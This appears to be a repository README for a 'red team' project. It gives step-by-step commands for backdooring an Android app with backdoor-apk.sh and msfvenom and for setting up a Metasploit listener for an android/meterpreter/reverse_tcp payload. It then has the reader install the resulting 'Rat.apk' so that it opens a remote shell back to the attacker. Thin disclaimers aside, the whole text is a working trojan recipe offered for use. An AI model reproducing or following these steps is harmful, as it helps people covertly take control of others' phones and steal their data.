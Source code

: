 # redteam-apk-idea
# disclaimer, im not finished testing this one but I am confident its a great template for similar tool-kits
# do not use this for illegal activity, if you do its your fault not my fault!

Begin by ensuring you have Kali Linux or a similar environment setup with tools like msfvenom, dex2jar, unzip, keytool, jarsigner, apktool, ProGuard, Android String Obfuscator (ASO), and Android SDK build-tools (dx, zipalign), installing dependencies with sudo apt update && sudo apt install lib32z1 lib32ncurses5 lib32stdc++6 dex2jar apktool proguard (and sudo gem install bundler && bundle install for ASO), then download and prepare the backdoor-apk.sh script along with the needed files (and make it executable with chmod +x backdoor-apk.sh); next, execute the script with ./backdoor-apk.sh original.apk, responding to prompts for Android payload, LHOST, and LPORT, after which you'll need to setup a Metasploit listener by running msfconsole, then using use exploit/multi/handler, set PAYLOAD android/meterpreter/reverse_tcp, set LHOST <YOUR_KALI_IP>, and set LPORT 4444, finishing with exploit; finally locate the backdoored APK as Rat.apk within the directory, install it on an Android device while allowing installations from unknown sources, and run it, at which point the Metasploit listener should establish a connection, but remember this is for ethical testing only and requires proper permissions, and ensure all dependencies are appropriately configured and that the Android device can communicate with the attacker's machine.

Explanation of how to assemble:

Start with the text above as a single string.

Replace <YOUR_KALI_IP> with your Kali Linux IP address.

Remember this process includes steps before and after the commands.
